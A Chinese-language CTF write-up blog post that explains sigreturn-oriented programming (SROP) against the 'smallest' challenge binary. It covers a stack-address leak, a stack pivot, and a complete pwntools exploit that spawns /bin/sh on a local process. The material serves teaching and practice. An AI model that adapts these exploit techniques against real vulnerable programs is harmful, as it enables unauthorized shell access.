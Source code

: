 ```yaml
---
title: srop实战
authorId: hac425
tags:
  - srop
  - rop
categories:
  - ctf
date: 2017-12-16 17:36:00
---
```

### 前言

`srop` 的作用比较强，在条件允许的情况下，尽量使用它。题目来自于 `i春秋`的一个比赛。


题目链接：
https://gitee.com/hac425/blog_data/blob/master/smallest
### 正文

程序非常的简单

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513417180656goqrxx0p.png?imageslim)
使用 `syscall` 进行系统调用，往 `rsp` 读入数据，然后 `ret`, 直接就可以控制 `rip`. 

程序非常的小，除了 这里基本没有代码，但是我们有 `syscall` ，`srop`利用之。首先明确目标。

```
execve(“/bin/sh”, 0, 0)
```
`syscall` 的传参顺序为 

```
rdi,rsi,rdx,rcx,r8, r9
```
然后 `rax` 存放 系统调用号 以及 `syscall` 的返回值。
所以我们需要设置 

```
rax=59
rdi---> /bin/sh
rsi=0
rdx=0
```
然后 `syscall`.就可以拿到 `shell` 了。

使用 `srop` 我们可以控制所有的寄存器的值。
所以我们需要一个可写的地址在一次`srop`结束后设置为 `rsp`.

**下面根据 `exp` 进行讲解**

首先是通过栈中环境变量，泄露栈的地址，得到一个可写的地址，用于 `srop` 时设置 `rsp`.


因为 `write` 的系统调用号 为 `1`,  而且 `stdout` 也为 `1`, 这样我们输入一个字符。然后通过 `rop` 跳到

```
mov     rdi, rax        ; fd
syscall 
```

我们就能 调用 `write(1,rsi,rdx)`, 此时的 `rsi` 就是栈的地址，`rdx` 则为 `0x400`,我们就能 拿到 栈的地址。

有一点需要注意的是，我们需要事先布置好栈数据，然后再次进入 `start`, 控制 `rax`.因为我们要控制的 `rax` 值小于 我们需要布置的数据的长度。


```
again = 0x4000B0         #xor     rax, rax
rdi_rsi_sys = 0x04000BB  # mov     rdi, rax

payload = p64(again)
payload += p64(rdi_rsi_sys)
payload += p64(again)  # addr for after leak

p.send(payload)
sleep(0.2)

log.info("set stack for call write(1,....)")
# pause()

p.send('\xbb')
data = p.recv()
sleep(0.2)

stack_addr = u64(data[0x10:0x18]) - 0x253
log.info(hex(stack_addr))

log.info("set rax=1, and ret to rdi_rsi_sys to call write(1,....)")
```
然后就是 `srop` 了。首先使用 `srop` 修改 `rsp`到 我们 一个刚刚泄露的地址.设置好 `/bin/sh`, 这么做的原因是，在一个确定地址处设置好 `/bin/sh`，用于后面 `getshell`.

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15134185188140sj1uelb.png?imageslim)

然后又回到开头，设置 `SigreturnFrame`, 此时已经可以确定`/bin/sh` 的地址了。设置好 寄存器。`srop`之后，再次 `syscall` 执行 
`execve(“/bin/sh”, 0, 0)`

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15134185607335pktg6kj.png?imageslim)




### 最后


很多东西调试一遍就清楚了。调试 `exp`, 写一点就调试一点。`srop` 时 ,栈顶开始为 `SigreturnFrame`.


参考：

http://blog.csdn.net/qq_29343201/article/details/72627439

完整的 `exp`

```
from pwn import *
from time import sleep
context(os='linux', arch='amd64', log_level='debug')

p = process("./smallest")



# gdb.attach(p, '''
# bp *0x004000BE 

# 	''')
pause()


again = 0x4000B0         #xor     rax, rax
rdi_rsi_sys = 0x04000BB  # mov     rdi, rax

payload = p64(again)
payload += p64(rdi_rsi_sys)
payload += p64(again)  # addr for after leak

p.send(payload)
sleep(0.2)

log.info("set stack for call write(1,....)")
# pause()

p.send('\xbb')
data = p.recv()
sleep(0.2)

stack_addr = u64(data[0x10:0x18]) - 0x253
log.info(hex(stack_addr))

log.info("set rax=1, and ret to rdi_rsi_sys to call write(1,....)")



# pause()


# swtch rsp ---> to leak addr, for get /bin/sh addr

frame = SigreturnFrame()
frame.rsp = stack_addr # after sigretrun, rsp
frame.rip = again    # ret to begin
payload = p64(again)
payload += 'd' * 8
payload += str(frame)

sleep(0.2)
p.send(payload)


syscall_addr = 0x04000BE 

payload = p64(syscall_addr)
payload += '\x11' * (15 - len(payload))

pause()
sleep(0.2)
p.send(payload)

log.info("switch stack done")
pause()

payload = p64(again)
payload += "B" * 8

frame = SigreturnFrame()
frame.rsp = stack_addr # after sigretrun, rsp
frame.rip = syscall_addr    # ret to begin

frame.rax = 59

frame.rdi = stack_addr + 0x10 + 0xf8

payload += str(frame)
payload += "/bin/sh\x00"

p.send(payload)
pause()



payload = p64(syscall_addr)
payload += '\x11' * (15 - len(payload))
p.send(payload)

p.interactive()

```